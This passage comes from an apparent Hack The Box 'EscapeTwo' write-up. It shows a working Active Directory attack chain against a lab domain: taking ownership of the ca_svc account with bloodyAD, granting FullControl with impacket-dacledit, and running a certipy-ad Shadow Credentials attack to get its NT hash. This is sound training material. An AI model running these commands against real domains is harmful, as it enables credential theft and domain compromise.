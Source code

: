 #### Step 1: Change ownership of `ca_svc` Object

Well we have WriteOwner, we could take ownership of this object and get Full Control over the CA configuration, compromise the Certificate Authority and abuse the templates that are associated with privileged users .

```bash
bloodyAD --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'password' set owner 'ca_svc' 'ryan'
```

Which upon success prints out:

![caption](assets/htb-escapetwo-20.png)

#### Step 2: Grant Full Control rights

```bash
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"password"

<SNIP>
[*] DACL backed up to dacledit-20250227-135446.bak
[*] DACL modified successfully!

```

#### Step 3:

We will be performing Shadow Credentials attack to get an <mark style="color:red;">**NT hash**</mark> of the **`ca_svc`** account.

```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p "password" -account 'ca_svc' -dc-ip '10.10.11.51'
```

![caption](assets/htb-escapetwo-21.png)
